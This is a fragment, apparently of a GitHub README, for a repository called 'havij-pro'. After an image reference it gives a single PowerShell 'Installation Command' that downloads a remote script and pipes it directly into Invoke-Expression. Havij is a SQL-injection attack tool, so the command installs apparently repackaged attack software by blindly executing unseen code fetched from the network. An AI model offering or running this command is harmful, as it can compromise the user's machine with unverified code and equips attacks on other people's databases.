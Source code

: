 # Installation Command
```powershell
irm https://raw.githubusercontent.com/sahmsec/havij-pro/main/aws-install.ps1 | iex
